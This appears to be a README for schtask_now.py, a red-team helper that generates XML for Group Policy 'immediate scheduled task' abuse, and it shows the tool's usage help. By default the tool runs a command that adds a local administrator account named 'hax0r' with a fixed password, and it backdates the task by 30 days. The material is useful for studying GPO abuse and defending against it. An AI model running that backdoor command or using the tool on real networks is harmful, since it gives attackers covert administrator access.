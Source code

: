 # schtask_now
Generate XML file for "immediate scheduled task" GPO configuration. Template borrowed from
https://github.com/rasta-mouse/GPO-Abuse/blob/master/scheduled-tasks.md and
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
(see New-GPOImmediateTask - note this function has been discontinued in the latest version
of PowerView). One small improvement I made is that the commands are appropriately
XML encoded (i.e. & -> &amp; etc.)

For usage info see https://rastamouse.me/2019/01/gpo-abuse-part-2/.

```
usage: schtask_now.py [-h] [-n NAME] [-m DATE] [-d DESCRIPTION] [-c COMMAND]
                      [-a ARGS]

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --name NAME  name for the scheduled task, if not provided a random
                        name in the form of 'TASK_########' is generated.
  -m DATE, --date DATE  specify task modification date, should be in 'YYYY-MM-
                        DD HH:MM:SS' format. If not provided current date -30
                        days is used.
  -d DESCRIPTION, --description DESCRIPTION
                        specify task description, if not provided empty
                        description is used.
  -c COMMAND, --command COMMAND
                        command to execute, defaults to
                        'c:\windows\system32\cmd.exe'
  -a ARGS, --args ARGS  command arguments, defaults to '/c "net user hax0r
                        Super1337 /add && net localgroup administrators hax0r
                        /add"'
```